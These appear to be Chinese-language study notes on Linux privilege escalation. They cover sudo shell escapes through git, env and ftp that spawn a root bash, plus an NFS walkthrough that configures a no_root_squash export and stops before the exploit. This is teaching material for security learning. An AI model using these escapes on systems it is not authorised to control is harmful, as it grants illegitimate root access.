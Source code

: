 需要注意的是，修改 sudoers 文件时应格外小心，避免出现语法错误，以免导致系统的安全性问题。最好使用 visudo 命令来编辑 sudoers 文件，它会在保存文件时进行语法检查，以确保文件的正确性。

**常用命令**
+ sudo su 
+ sudo bash 以root权限运行bash
+ sudo -l 查看sudo能够使用的范围
+ visudo 编辑/etc/sudoers文件
**编辑sudoers文件提权**

**使用 git提权**
```
sudo git help config //进入帮助文档后，输入!/bin/bash完成提权
sudo git -p help   // 同上
```
**应用程序提权**
env
```
sudo env /bin/bash
```
ftp,
```
sudo ftp 然后输入!/bin/bash
```
socat
![](vx_images/127472319258958.png)
scp
![](vx_images/23342419254094.png)
### nfs提权
#### NFS基本知识
全称:    network file system 文件共享服务。默认2049端口，使用RPC remote procedure call 记录每个nfs协议的端口信息。
流程：（RPC记录NFS端口信息，充当中介）
1、服务端启动RPC服务
2、服务端启动NFS服务，并向RPC服务注册端口信息
3、NFS客户端向RPC请求NFS服务端口信息
4、RPC返回该端口信息
5、客户端访问对应端口的NFS服务，进行文件挂载和共享 
#### 基本使用
安装nfs服务端
```
sudo apt install nfs-kernel-server 
```
更改配置文件
```
/etc/exports
/home *(rw,no_root_squash) 共享目录 允许连接的主机 执行权限 用户权限
```
重启nsf和rpc服务
```
sudo /etc/init.d/rpcbind restart
sudo /etc/init.d/nfs-kernel-server restart
```
查看服务器共享目录
```
showmount -e ip
```